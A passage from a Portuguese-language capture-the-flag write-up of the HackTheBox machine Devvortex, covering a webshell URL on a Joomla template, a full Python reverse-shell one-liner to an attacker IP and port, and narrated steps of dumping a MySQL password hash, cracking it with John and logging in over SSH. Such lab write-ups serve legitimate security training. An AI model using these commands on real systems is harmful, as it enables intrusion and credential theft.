 Só acessar e usar a webshell `http://dev.devvortex.htb/templates/cassiopeia/error.php?cmd=ls`  
Chequei se tinha python na box, e usei `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.161",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`
para executa reverse shell.  
## **Exploração**
![alt text](/assets/img/devvortex7.png)  
Na home existe apenas a pasta do outro usuário, logan.
Obtive hash de usuário logan no mysql com as credenciais de lewis.
![alt text](/assets/img/devvortex8.png)
### Crackeando a hash com john
![alt text](/assets/img/devvortex9.png)

### Primeira Flag
As credenciais de logan permitiu login via ssh.
![alt text](/assets/img/devvortex10.png)
